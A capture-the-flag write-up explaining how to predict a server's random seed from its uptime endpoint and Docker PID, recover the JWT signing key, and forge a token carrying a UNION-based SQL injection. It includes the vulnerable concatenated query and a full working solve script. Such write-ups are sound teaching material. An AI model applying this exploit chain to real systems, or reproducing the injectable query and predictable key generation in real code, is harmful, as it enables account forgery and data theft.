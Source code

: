 # Write up to solve it

With the code under your eyes, it's easy to see that you can get the seed of the random module with :
- the PID which is always 1 in Docker (only "process") / or at least bruteforceable
- the time which you can get thanks to the uptime of /healthz

Now that you have the seed, you can retrieve the JWT key used to make new JWT tokens.

But what should you modify ? Well there is a very poorly implemented SQL query :

```python
favorite_product = db.session.execute(text("SELECT * FROM product WHERE id = " + str(favorite_product_id))).fetchone()
```

So a simple SQL injection will do the trick : 

```python
# extract from the solve.py shown later on
payload_json["favorite_product"] = "-1 UNION SELECT 1,1,flag,1,1,1 FROM Flag"
```
The `-1` is important, you DON'T WANT TO FIND an actual product, otherwise it's the one that will fetched by `.fetchone()`

Here is a full script to solve :

```python
import requests, json, time, math, random, string
import base64
import hmac
import hashlib

URL = "http://localhost:5000/"

s = requests.Session()

def retrieve_secret():
    r = s.get(URL + "healthz")
    return math.floor(time.time() - r.json()["uptime"])

res = [retrieve_secret() for _ in range(10)]
# get the most common value to be sure
secret = max(set(res), key = res.count)

random.seed(secret+ 1) # PID is always gonna be 1 in the docker :)

# random 32 characters
_ = [random.choice(string.printable) for _ in range(32)]
# then the key 

JWT_SECRET_KEY = "".join(random.choice(string.printable) for _ in range(32))
print(secret, JWT_SECRET_KEY)

# modify a JWT token using the secret key

# The JWT token you want to modify - retrieve it using requests.Session or manually
jwt = "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTczMDc1MjIyOSwianRpIjoiODZlZjJiZmItMWZiMy00MzNlLWEwNGUtMjFjMTU4YzQ1ZTViIiwidHlwZSI6ImFjY2VzcyIsInN1YiI6ImEiLCJuYmYiOjE3MzA3NTIyMjksImV4cCI6MTczMDc1MzEyOSwiZmF2b3JpdGVfcHJvZHVjdCI6Mn0.BvBCHqKurJlHl1fMuxuUHvXbvnlQqElDu25ufoeWR8g"

# Split JWT into header, payload, and signature
header, payload, signature = jwt.split(".")

# Base64 decode the payload
payload_bytes = base64.urlsafe_b64decode(payload + "==")
payload_json = json.loads(payload_bytes)

# Modify the payload
payload_json["favorite_product"] = "-1 UNION SELECT 1,1,flag,1,1,1 FROM Flag"

# Re-encode the payload to base64
new_payload = base64.urlsafe_b64encode(json.dumps(payload_json).encode()).decode().replace("=", "")

# Recalculate the signature with the new payload
new_signature = hmac.new(
    key=JWT_SECRET_KEY.encode(),
    msg=f"{header}.{new_payload}".encode(),
    digestmod=hashlib.sha256
).digest()

# Base64 encode the new signature
new_signature_encoded = base64.urlsafe_b64encode(new_signature).decode().replace("=", "")

# Reconstruct the modified JWT
new_jwt = f"{header}.{new_payload}.{new_signature_encoded}"

# Send the new JWT token (assuming session `s` is already set up)
r = s.get(URL + "/favorite_product_info", cookies={"access_token_cookie": new_jwt})
print(r.text)
```
